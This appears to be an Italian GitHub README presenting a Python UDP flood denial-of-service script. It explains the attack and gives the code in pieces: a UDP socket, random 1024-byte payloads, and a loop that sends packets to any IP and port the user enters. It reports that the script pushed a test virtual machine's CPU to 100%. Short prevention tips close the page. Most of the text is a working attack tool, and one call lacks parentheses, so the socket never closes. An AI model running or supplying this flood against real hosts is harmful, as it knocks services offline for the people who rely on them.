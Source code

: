 # **UDP FLOOD**
<p> UDP FLOOD è un tipo di attacco DoS che permette al malintenzionato di attaccare una
macchina tramite il protocollo UDP. L’obiettivo è sovraccaricare la macchina target
impedendo a quest’ultima di gestire tutti i dati in entrata  </p>

## Indice 📘
1. [Codice](#codice)
2. [Prestazioni](#prestazioni)
3. [Prevenzioni](#prevenzioni)

## **Codice👇🏼**
Importazione librerie
```bash
import socket
import random
```
Variabili
```bash
IP = input("Ip macchina target: ")
Porta = int(input("Porta macchina target: "))
npacchetti = int(input("Numero pacchetti: "))
```
Socket UDP
```bash
sock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
dimensione_pacchetto = 1024 #numero di byte
```
Funzione
```bash
def generazione_pack(dimensione):
  return bytes(random.getrandbits(8) for _ in range (dimensione))
```
Print
```bash
print(f" Sto inviando i pacchetti a {IP} sulla porta {Porta}")
```
Ciclo
```bash
for _ in range(npacchetti):
  sock.sendto(generazione_pack(dimensione_pacchetto), (IP, Porta))
```
Print
```bash
print("Pacchetto inviato")
```
Connessione chiusa
```bash
sock.close
```

## **Prestazioni**
<p>Questo screenshot ⬇️ mostra la fase di avvio dello script nei confronti della macchina target.
La CPU è riuscita a toccare il 100% di utilizzo senza la libreria threading che avrebbe portato
al crash la macchina virtuale🙃 </p> 

[Immagine](https://github.com/OctavianIT/Octavian_Ceresau_UdpFloodpy/blob/main/Octavian_Ceresau_UdpFlood/UdpFlood/Codice/prest.png)
<p>Provare per credere😅</p>

## **Prevenzioni**
#### **Filtraggio traffico UDP**
Configurare il firewall per limitare il traffico UDP su porte non necessarie ed impostare un limitatore di traffico per limitare
la quantità di pacchetti UDP in entrata

#### Protezione Anti-DDoS
Usare servizi esterni di mitigazione come: Cloudflare, AWS Shield o Google Cloud Armor
